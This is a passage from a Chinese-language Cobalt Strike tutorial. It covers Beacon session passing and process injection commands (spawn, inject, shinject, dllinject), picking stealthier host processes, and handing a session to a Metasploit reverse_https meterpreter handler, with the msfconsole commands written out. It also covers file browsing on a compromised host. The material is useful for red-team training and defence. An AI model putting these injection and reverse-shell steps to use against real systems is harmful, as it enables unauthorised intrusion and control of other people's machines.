 ### 会话传递

**会话传递相关命令**
Beacon 被设计的最初目的就是向其他的 CS 监听器传递会话。

- spawn：进行会话的传递，也可直接右击会话选择spawn命令进行会话的选择。默认情况下，spawn命令会在 rundll32.exe 中派生一个会话。为了更好的隐蔽性，可以找到更合适的程序（如 Internet Explorer） 并使用spawnto命令来说明在派生新会话时候会使用 Beacon 中的哪个程序。
- spawnto：该命令会要求指明架构（x86 还是 x64）和用于派生会话的程序的完整路径。单独输入spawnto命令然后按 enter 会指示 Beacon 恢复至其默认行为。
- inject：输入inject + 进程 id + 监听器名来把一个会话注入一个特定的进程中。使用 ps 命令来获取一个当前系统上的进程列表。使用inject [pid] x64来将一个64位 Beacon 注入到一个 64位进程中。
- spawn和inject命令都将一个 payload stage 注入进内存中。如果 payload stage 是 HTTP、HTTPS 或 DNS Beacon 并且它无法连接到你，那么将看不到一个会话。如果 payload stage 是一个绑定的 TCP 或 SMB 的 Beacon，这些命令会自动地尝试连接到并控制这些 payload。
- dllinject：dllinject + [pid]来将一个反射性 DLL 注入到一个进程中。
- shinject：使用shinject [pid] [架构] [/路径/.../file.bin]命令来从一个本地文件中注入 shellcode 到一个目标上的进程中。
- shspawn：使用shspawn [架构] [/路径/.../file.bin]命令会先派生一个新进程（这个新进程是 spawn to 命令指定的可执行文件），然后把指定的 shellcode 文件（ file.bin ）注入到这个进程中。
- dllload：使用dllload [pid] [c:\路径\...\file.dll]来在另一个进程中加载磁盘上的 DLL文件。

**会话传递使用场景**
1、将当前会话传递至其他CS团队服务器中，直接右击spawn选择要传递的监听器即可。
2、将当前会话传递至MSF中，这里简单做一下演示。
首先，在MSF中，为攻击载荷新建一个payload

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set lhost 192.168.175.156
msf5 exploit(multi/handler) > set lport 443
msf5 exploit(multi/handler) > exploit -j
```

随后，在CS中新建一个外部Foreign监听器，这里设置的监听IP与端口和MSF中的一致即可，随后在CS中利用spawn选择刚新建的外部监听器，MSF中即可返回会话。

### 文件系统

浏览会话系统文件位置在右击会话处，选择 Explore --> File Browser即可打开。在这里可以对当前会话下的文件进行浏览、上传、下载、删除等操作。
在进行文件浏览时，如果 beacon 设置的 sleep 值较高，CS会因此而变得响应比较慢。
